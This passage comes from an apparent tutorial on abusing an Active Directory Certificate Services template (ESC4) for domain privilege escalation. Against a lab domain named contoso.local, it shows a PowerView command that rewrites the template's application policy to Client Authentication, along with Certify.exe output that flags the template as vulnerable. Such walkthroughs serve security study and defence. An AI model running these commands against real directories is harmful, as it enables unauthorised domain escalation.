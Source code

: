 `ENROLLEE_SUPPLIES_SUBJECT` appears in `msPKI-Certificates-Name-Flag`, so now we can specify any user name as SAN in the ESC4 template.


#### Editting Certificate Application Policy Extension
The final step of setting the vulnerable template for domain escalation is to change the Certificate Application Policy Extension.
As mentioned earlier, Certificate Application Policy Extension are specified with `mspki-certificate-application-policy` attribute.
For authentication, following Key Usage can be used:

+ Client Authentication (OID: `1.3.6.1.5.5.7.3.2`)

+ Smart Card Logon (OID: `1.3.6.1.4.1.311.20.2.2`)

+ PKINIT Client Authentication (OID: `1.3.6.1.5.2.3.4`)

+ Any Purpose (OID: `2.5.29.37.0`)

+ No EKU

> __NOTE__: If CA servers don't enable PKINIT Client Authentication, we can not use PKINIT Client Authentication in this step.

In this article, we set Certificate Application Policy Extension to "Client Authentication".
Abusing WriteDacl, we can achieve this by `Set-DomainObject` function of PowerView as follows:

```
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity ESC4 -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CONTOSO.LOCAL/CN=Certificate Templates,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] Setting 'mspki-certificate-application-policy' to '1.3.6.1.5.5.7.3.2' for object ''
PS C:\Tools>
```

The output of `Certify.exe` is following:

```
C:\Tools>Certify.exe find /vulnerable

--snip--

[!] Vulnerable Certificates Templates :

    CA Name                         : CA01.contoso.local\contoso-CA01-CA
    Template Name                   : ESC4
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : ENROLLEE_SUPPLIES_SUBJECT, SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required  : 0
    Application Policies            : Encrypting File System
    pkiextendedkeyusage             : Encrypting File System
    Permissions
      Enrollment Permissions
        Enrollment Rights           : CONTOSO\Domain Admins         S-1-5-21-3654360273-254804765-2004310818-512
                                      CONTOSO\Domain Users          S-1-5-21-3654360273-254804765-2004310818-513
```